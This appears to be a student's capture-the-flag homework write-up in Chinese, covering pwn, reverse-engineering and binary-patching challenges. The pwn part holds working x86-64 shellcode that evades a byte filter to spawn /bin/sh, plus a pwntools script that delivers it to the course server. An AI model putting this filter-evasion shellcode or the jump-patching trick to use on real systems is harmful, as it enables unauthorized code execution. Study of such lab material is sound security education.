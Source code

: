 # HW0x00 Writeup

## pwn

題目有給 source code ，可以看到主程式裡面有個 `void (*hello)()` 可以將 shellcode 傳入並呼叫，但在傳進去之前會做檢查，其中有限制不能有 `\x00` 、 `\x05` 、 `\x0f` ，分別代表是 null byte 跟 Linux 的 `syscall` 指令。

```c=
for( int i = 0 ; i < 0x100 ; ++i ){
        if( shellcode[i] == '\x00' || shellcode[i] == '\x05' || shellcode[i] == '\x0f' ){
            puts( "Oops" );
            _exit(-1);
        }
    }
```


因此在這個限制下，必須傳入的字串長度必須補滿以免被補上 null byte ，另外對 register 操作製造一個 `syscall` 之後我們再 call 它就不會在 shellcode 裡面看到 `\x05\x0f` 了。

為了讓 `hello()` 可以執行 `/bin/sh` ，先去查了 Linux x64 system call table ，可以看到呼叫 `sys_execve` ， `rax` 要放 `0x3b` ，而 `rdi`、`rsi`、`rdx` 分別代表 `const char* filename` 、 `const char* argv[]` 、 `const char* envp[]`，我們要執行 `/bin/sh` 基本上只需要在 `rdi` 裡放入 `"/bin/sh"` ，其餘放 `0` 即可。

而 `syscall` 的數字，可以先將它做成 `0xfaf1` ，以 `neg` 將他轉換回 `0x050f` 。

照這個想法ㄧ開始寫的 payload 是：

```=
_start:

xor rdx, rdx
xor rsi, rsi
mov r8, 0x68732f2f6e69622f
push r8
push rsp
pop r13
mov rdi, r13
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14

call r14
```

但可以看到第五行因為裡面沒有 null byte ，所以不知道字串是否結束，傳進去的時候尾巴有一些奇怪的字元。

![](https://i.imgur.com/TsGcgnw.png)

所以選擇的策略是用造 `syscall` 一樣的方式，將 `"/bin/sh\x00"` 的 hex 做成 2's complement ，利用 `neg` 這個指令將其轉換回去我們想要的。

```=
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
```

這樣就沒有問題了，完整的 script 如下：

```python3=
from pwn import *

arch = context.update(arch='amd64', os='linux')
r = remote('edu-ctf.csie.org', 10150)

r.recvline()

shellcode = """
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
"""

payload = asm(shellcode, arch='amd64')

r.send(payload)

r.interactive()
```

## rev

這題給的是一個 `*.pyc` file ，所以先用網路上的 decompiler 將他還原成比較好讀的形式，只不過 Google 搜尋結果第一筆的 decompiler 會在 `assert` 的部份解析錯誤，所以需要修改一下。

基本上這個 stack machine 有以下這幾個運算：
* 0: add
* 1: cmp
* 2: call itself
* 3: clean up the list
* 6: pop out
* 7: push in
* 8: do the last two elements subsitution, then get rid of the last one.
* 9: do the character accuracy check, terminate the process if it is the wrong character.

而從 opcode 8 跟 9 的計算模式 （同時也把運算的過程印出來檢驗），可以得知字串的比對是從後面往前做的。因此，若要推算正確的 char 也要從後面往前推算。
![](https://i.imgur.com/mvusOQJ.png)


## misc

這題一樣有給 source code ，然後下方註解出題者有給佛心建議說可以從哪些步驟開始，但因為我不太想裝 Visual Studio ，在 Linux 跑 wine 就好了，所以載了 x64dbg 。

然後 x64dbg 有 bug 不能用 wine 跑 (uwu) 。

![](https://i.imgur.com/Aq4lZ8W.png)

查了很多資料之後覺得要 patch x64dbg 有點麻煩，就只好打開我的 Windows 環境。

然後 Windows 基於不知名原因沒有網路我什麼都不能裝 (uwu) 。

![](https://i.imgur.com/4ozeoTB.png)

只好切回 Linux 用 USB 裝了題目跟 debugger 檔案，切回去 Windows 放進去囉，讚喔。

基本上題目應該是要我們在執行過程中，從 debugger 中找到 memory 裡有沒有出現這次 random 出來的值為多少，這樣就能輸入正確的數值使 magic 跟 password 相等。但其實可以發現， magic 跟 password 的判斷式和 key 的比較之間其實是不會互相影響的，因此其實直接找到 `if (password == magic)` 所在的位置，將其從 `jne` patch 成 `je` 之類的就可以了。

只不過不知道為什麼 x64dbg 跑完程式之後就會馬上終止，所以來不及看到 flag 長怎樣，只好把斷點設在 `printf` 的位置，讓他一個字一個字把 flag 印出來，就大功告成了！

喔對因為電腦沒網路、筆電剛好也不在身邊，我沒辦法直接提交 flag ，只好用 genius 的方式把 flag 的畫面拍下來。

![](https://i.imgur.com/NmwAv7z.jpg)

![](https://i.imgur.com/1M2Gp8B.png)

